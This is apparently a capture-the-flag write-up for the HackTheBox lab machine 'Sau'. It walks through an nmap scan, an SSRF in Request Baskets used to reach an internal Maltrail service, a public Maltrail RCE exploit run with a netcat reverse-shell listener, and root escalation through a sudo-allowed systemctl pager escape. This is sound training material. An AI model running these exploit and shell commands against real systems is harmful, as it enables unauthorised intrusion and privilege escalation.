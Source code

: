 # HackTheBox Sau

Easy level CTF lab machine of the HackTheBox platform running Linux containing public exploits, SSRF, RCE.

## Service Overview

The machine is assigned IP address 10.10.11.224, let's scan the ports with Nmap:

```bash
$ nmap -sS -sC -sV -T4 -p- 10.10.11.224

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Mon, 11 Sep 2023 15:15:13 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Mon, 11 Sep 2023 15:14:45 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Mon, 11 Sep 2023 15:14:46 GMT
|_    Content-Length: 0
```

## Web interface

We discover a running web app [Request Baskets v1.2.1](https://github.com/darklynx/request-baskets): `http://10.10.11.224:55555`. A quick analysis shows that there is a public [exploit](https://www.exploit-db.com/exploits/51675) for SSRF.

Create basket and set http://localhost:80 and Proxy Response:

```json
  "forward_url": "http://127.0.0.1:80/",
  "proxy_response": true
```

Copy link with basket and open in new tab. We can see Maltrail from 80 port: `Powered by Maltrail (v0.53)`.

There is a public [RCE exploit](https://github.com/spookier/Maltrail-v0.53-Exploit) for versions below 0.53.

First we must update the forward URL accordingly by adding "/login" in `http://10.10.11.224:55555`: `http://localhost:80/login`.

Example:

```bash
$ nc -lnvkp <LOCAL-PORT>
$ nc -lnvkp 4444
$ python3 exploit.py <ATTACKER-IP> <LOCAL-PORT> http://<TARGET-IP>:55555/<BUCKET-NAME>
$ python3 exploit.py 10.10.16.40 4444 http://10.10.11.224:55555/gkpq7kd

And open:
http://10.10.11.224:55555/gkpq7kd
```

## User flag

Immediately picking up the user flag:

```bash
$ nc -lnvkp 4444
listening on [any] 4444 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.224] 49486
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$ ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
$ ls /home
ls /home
puma
$ ls /home/puma
ls /home/puma
user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
a5fb0d435162d1dc71de2e687e01b591
```

## Privilege escalation

Let's check the default privileges for sudo.

```bash
$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Let's use [gtfobins](https://gtfobins.github.io/gtfobins/systemctl/#sudo) and raise our privileges.

```bash
$ sudo /usr/bin/systemctl status trail.service
sudo /usr/bin/systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)!sh

Now while we’re still in the pager, we type the following and press enter:

!sh

!sshh!sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# ls
ls
CHANGELOG     core    maltrail-sensor.service  plugins           thirdparty
CITATION.cff  docker  maltrail-server.service  requirements.txt  trails
LICENSE       h       maltrail.conf            sensor.py
README.md     html    misc                     server.py
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
972155ccbc4a677168e271cdf8ba8424
```
